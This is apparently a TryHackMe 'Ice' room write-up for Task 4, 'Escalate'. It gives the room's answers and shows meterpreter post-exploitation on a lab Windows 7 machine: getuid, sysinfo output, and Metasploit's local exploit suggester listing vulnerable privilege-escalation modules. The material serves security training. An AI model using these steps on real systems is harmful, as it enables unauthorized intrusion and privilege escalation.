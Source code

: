 `No answer needed`

## [Task 4] Escalate

1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

`meterpreter`

2. What user was running that Icecast process? The commands used in this question and the next few are taken directly from the '[RP: Metasploit](https://tryhackme.com/room/rpmetasploit)' room.


```
meterpreter > getuid
```

```
Server username: Dark-PC\Dark
```

`Dark`

3. What build of Windows is the system?

```
meterpreter > sysinfo
```

```
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

`7601`

4. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

`x64`

5. Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

```
[*] 10.10.202.247 - Collecting local exploits for x86/windows...
[*] 10.10.202.247 - 30 exploit checks are being tried...
[+] 10.10.202.247 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.202.247 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
